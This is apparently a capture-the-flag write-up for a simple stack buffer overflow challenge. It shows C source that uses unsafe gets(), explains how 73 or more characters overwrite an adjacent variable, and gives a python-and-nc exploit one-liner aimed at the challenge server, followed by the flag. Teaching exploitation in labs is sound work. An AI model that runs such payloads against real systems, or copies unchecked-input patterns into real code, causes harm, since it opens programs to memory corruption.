 ## bof 
> What's a buffer? Hmmmmmm... Is my buffer too small?
We're given both the binary and the source, so we take a look at the source first to figure out what's going on.
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[64];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("\n\n\n\nMinecraftcito\nWhere you need to survive all day and all night\nCraft a diamond sword so you can fight\nPlace a torch in a cave to produce some light\nMinecraftcito\n");
  puts("What song do you want me to sing next?\n");
  
  gets(name);
  printf("Sorry, I don't know how to sing that...\n");
  if(code != 0) {
    system("cat flag.txt");
     printf("\n\n\n");
  }
}

```

This is a simple buffer overflow. `name` is stored as a char array with length 64. The gets() method assigns user input to name without sanitizing the input to check if it's valid. This means that if we type in something that's longer than the length of 64, it will start overwriting parts of the memory. In this case, since the program checks if the value of `code` is not equal to 0, we only need to rewrite the value of `code`. Putting in at least 73 `a`'s should be sufficient (64 for the buffer, 8 more to overwrite `code` plus 1), but you can put in anything above that to trigger the flag. 

testing:
```
$ chmod +x bof
$ python -c "print 'A'*80" > temp
$ ./bof < temp
```


exploit:
```
python -c "print 'A'*80" | nc imaginary.ml 10002

Flag: `flag{buff3r_0v3rfl0w_1s_d4ng3r0uS}`
